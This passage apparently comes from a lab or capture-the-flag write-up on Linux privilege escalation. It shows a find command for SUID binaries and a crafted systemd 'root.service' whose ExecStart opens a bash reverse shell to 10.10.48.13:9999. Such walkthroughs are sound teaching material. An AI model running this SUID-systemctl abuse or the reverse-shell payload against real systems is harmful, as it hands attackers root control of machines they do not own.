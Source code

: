 ```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/systemctl_suid_set.png" alt=""><figcaption><p>systemctl has SUID set</p></figcaption></figure>

We find systemctl has SUID set. So with by enabling a malicious service we can get root shell access.

### Privilege Escalation

Plan is to spawn another reverse shell back to attacker machine with root access. We do this by creating the following `root.service` in the `/tmp` directory because we have write access to it:

```
[Service]
Type=simple
User=root
Execstart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.48.13/9999 0>&1'
```

<figure><img src="../.gitbook/assets/create_root_service.png" alt=""><figcaption></figcaption></figure>
